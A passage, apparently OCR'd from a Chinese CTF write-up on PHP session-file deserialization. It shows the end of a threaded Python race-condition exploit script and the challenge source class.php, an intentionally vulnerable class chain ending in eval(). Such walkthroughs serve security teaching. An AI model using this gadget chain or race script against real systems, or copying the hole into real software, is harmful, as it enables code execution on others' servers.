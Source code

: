 ```python
            print('success!')
            

if __name__ == "__main__":
    ip=sys.argv[1]
    port=int(sys.argv[2])
    et=threading.Event()
    for i in xrange(1,40):
        threading.Thread(target=exp,args=(ip,port)).start()
    et.set()

```

本地实测没有成功，session写入有问题。





### 例子1：写入session文件后反序列化

#### 安恒杯

**class.php**

```php
<?php

highlight_string(file_get_contents(basename($_SERVER['PHP_SELF'])));
//show_source(__FILE__);

class foo1{
 public $varr;
 function __construct(){
  $this->varr = "index.php";
 }
 function __destruct(){
  if(file_exists($this->varr)){
   echo "<br>文件".$this->varr."存在<br>";
  }
  echo "<br>这是foo1的析构函数<br>";
 }
}

class foo2{
 public $varr;
 public $obj;
 function __construct(){
  $this->varr = '1234567890';
  $this->obj = null;
 }
 function __toString(){
  $this->obj->execute();
  return $this->varr;
 }
 function __desctuct(){
  echo "<br>这是foo2的析构函数<br>";
 }
}

class foo3{
 public $varr;
 function execute(){
  eval($this->varr);
 }
 function __desctuct(){
```